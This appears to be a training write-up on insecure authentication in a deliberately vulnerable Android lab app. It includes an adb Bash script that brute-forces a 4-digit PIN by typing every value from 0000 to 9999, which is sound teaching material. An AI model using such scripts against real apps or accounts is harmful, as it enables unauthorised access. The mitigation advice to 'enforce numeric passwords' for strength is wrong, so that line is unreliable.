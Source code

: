 # Insecure Authentication

## Introduction
Authentication is the act of confirming a user's identity. Many apps require user accounts which will naturally require authentication in order to check details for their correctness. If authentication is carried out by a 3rd party server then this section will not be relevant, but if your app uses local authentication then this guide will be something to think about.
There are two main issues that apps commonly contain. The first is the lack of attempt counter. This leaves the app vulnerable to brute force attack. The second issue is related to the first. Many apps use a 4-digit PIN as a way of securing certain content (e.g. secret folders). The issue is that 4 digit PIN codes only have 10000 combinations. Computationally this is a small number and a brute force attack would be almost instantaneous. Furthermore, according to [this website](https://datagenetics.com/blog/september32012/index.html) 20 combinations account for 26.83% of all combinations.

## Vulnerability
In this app, the log in screen not only uses a 4 digit PIN code, but it does not track the number of attempts leaving the app and authentication open to attack.
I have created a Bash script to demonstrate the ability to brute force the password on the emulator. The code for the script is below:

```
#!/usr/bin/env bash

cd C:/Users/chris/AppData/Local/Android/Sdk/platform-tools
./adb shell am start -n com.example.damnvulnerablemobileapp/.MainActivity
./adb shell input touchscreen tap 400 2100
./adb shell input touchscreen tap 540 700
./adb shell input touchscreen tap 540 350
for number in {0000..9999};
do
    ./adb shell input text "$number"
	./adb shell input touchscreen tap 900 550
done
exit 0
```

## What does this look like
In code this will be noticeable anywhere that PIN numbers are accepted. There will also be a lack of tests regarding incorrect login attempts.

## Where this can be found
Authentication can occur anywhere in an app that needs to check entered details - usually for accessing hidden content or logging into an account.

## Mitigations
As mentioned at the beginning, shifting authentication to a 3rd party server with appropriate security measures will relieve the need for checks locally in the app. If authentication must occur locally then make sure that there are time-outs associated with incorrect login attempts. Furthermore, if there is a need for passwords, always enforce numeric passwords to ensure strong password strength.
